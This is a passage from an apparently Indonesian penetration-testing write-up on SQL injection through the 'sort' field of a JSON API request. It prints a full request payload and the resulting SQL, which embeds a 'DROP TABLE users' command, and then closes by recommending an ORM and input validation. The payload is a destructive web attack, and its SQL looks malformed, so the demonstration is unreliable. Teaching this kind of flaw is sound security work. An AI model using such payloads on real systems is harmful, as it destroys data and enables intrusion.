 ```sh
Te: trailers
Content-Length: 332

{
  "dataProvider": {
    "criterion": [
      {
        "criteria": "keyword",
        "operator": "LK",
        "value": "",
        "custom": true
      }
    ],
    "page": {
      "count": 2,
      "current": 2,
      "limit": 10,
      "next": 2,
      "previous": -1,
      "total": 11
    },
    "sort": [
      {
        "criteria": "id LIMIT 10 OFFSET 0+(CASE WHEN((DROP TABLE users=True) THEN 1 ELSE -1 END)--", // dimasukan query LIMIT dan -- 
        "order": "DESC"
      }
    ]
  }
}
```

maka query yang dihasilkan berupa 

```sql
SELECT * FROM sometable ORDER BY id LIMIT 10 OFFSET 0+(CASE WHEN((DROP TABLE users=True) THEN 1 ELSE -1 END) -- DESC
```

<p style="text-align: justify; letter-spacing: 0.002em;">
jika success maka table users akan terhapus, tidak hanya itu kita bisa mendesign subquery untuk melakukan serangan.
</p>

&nbsp;
## Kesimpulan

* Pentest tidak cukup hanya mengandalkan tools 
* Sebaiknya gunakan ORM atau validasi inputan dati client, sebelum memasukan menjadi bagian dari query

Thanks